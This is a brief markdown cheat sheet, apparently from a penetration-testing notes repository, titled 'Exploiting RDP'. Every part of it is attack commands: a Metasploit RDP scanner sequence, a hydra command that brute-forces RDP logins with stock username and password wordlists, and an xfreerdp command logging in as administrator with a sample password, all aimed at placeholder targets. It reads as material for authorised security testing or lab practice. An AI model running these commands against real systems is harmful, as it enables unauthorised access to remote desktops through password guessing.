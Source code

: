 # Exploiting RDP

## Automatic

__Scanning the rdp connection__
```
msfconsole
use auxiliary/scanner/rdp/rdp_scanner
set rhosts <target ip>
set rport <target port>
exploit
```

__brute force attack__
- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /user/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<target ip> -s <target port>`


__connecting rdp using xfreerdp__
- `xfreerdp /u:administrator /p:qwertyuiop /v:<target ip>:<port_number>`
